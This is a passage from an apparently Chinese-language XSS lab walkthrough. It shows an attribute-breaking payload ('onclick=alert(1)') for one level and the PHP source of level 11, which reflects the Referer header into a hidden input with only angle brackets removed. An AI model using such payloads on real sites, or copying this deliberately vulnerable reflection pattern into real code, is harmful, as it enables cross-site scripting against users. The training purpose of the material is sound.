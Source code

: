 ```ruby
?keyword=1&t_sort=" onclick="alert(1)
```

## Level11 (referer注入)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level12.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level11</title>
</head>
<body>
<h1 align=center>欢迎来到level11</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level11.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```



```bash
$_SERVER['HTTP_REFERER']是一个PHP超全局变量，用于获取当前页面的前一个页面的URL地址。
```

